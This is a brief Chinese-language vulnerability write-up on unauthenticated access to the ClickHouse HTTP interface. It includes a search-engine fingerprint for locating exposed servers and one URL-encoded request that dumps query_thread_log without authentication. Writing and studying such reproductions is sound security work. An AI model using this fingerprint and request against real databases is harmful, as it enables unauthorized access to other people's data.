 # ClickHouse API 数据库接口未授权访问漏洞

## 漏洞描述

ClickHouse API 数据库接口存在未授权访问漏洞，攻击者通过漏洞可以执行任意SQL命令获取数据库数据

## 漏洞影响

<a-checkbox checked>ClickHouse</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"ClickHouse" && body="ok"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628562111049-29c2abe1-632c-4b49-8139-c320c7642949.png)

执行SQL语句

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628562146369-a7f2b43b-64a6-4d94-b003-6df41a71af4e.png)

```php
/?query=SELECT%20*%20FROM%20system.query_thread_log%20LIMIT%201%20FORMAT%20Vertical
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628562659696-09dac222-48dc-47c6-9da8-e22203478a73.png)